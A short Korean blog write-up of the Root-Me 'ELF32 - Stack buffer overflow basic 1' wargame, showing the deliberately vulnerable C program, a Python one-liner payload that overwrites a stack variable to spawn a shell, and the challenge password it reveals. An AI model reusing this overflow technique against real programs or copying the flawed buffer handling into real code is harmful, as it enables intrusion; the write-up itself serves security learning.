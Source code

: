 ```yaml
---
layout: post
title: "[root-me][app-system] ELF32 - Stack buffer overflow basic 1"
date: 2016-09-15 15:03:10
category: wargame
tags:  [root-me, bof]
---
```


간단한 BoF 문제
[Challenges/App - System : ELF32 - Stack buffer overflow basic 1 [Root Me : Hacking and Information Security learning platform]](https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-1)

<!--more--> 

## Code

```c
#include <stdlib.h>
#include <stdio.h>
 
/*
gcc -m32 -o ch13 ch13.c -fno-stack-protector
*/
 
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way !\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude ! You win !\n");
     system("/bin/dash");
   }
   return 0;
}
```

## Exploit

`buffer[40]` 이후에 로컬변수가 overwrite 하여 값 맞추면 된다.  
한 번 실행된 다음에도 **계속 shell 유지**될 수 있도록 `cat` 함께 실행해준다.

```bash
$ (python -c 'print "A"*40 + "\xef\xbe\xad\xde"';cat)|./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ
                                                [check] 0xdeadbeef
Yeah dude ! You win !
cat .passwd
1w4ntm0r3pr0np1s
```

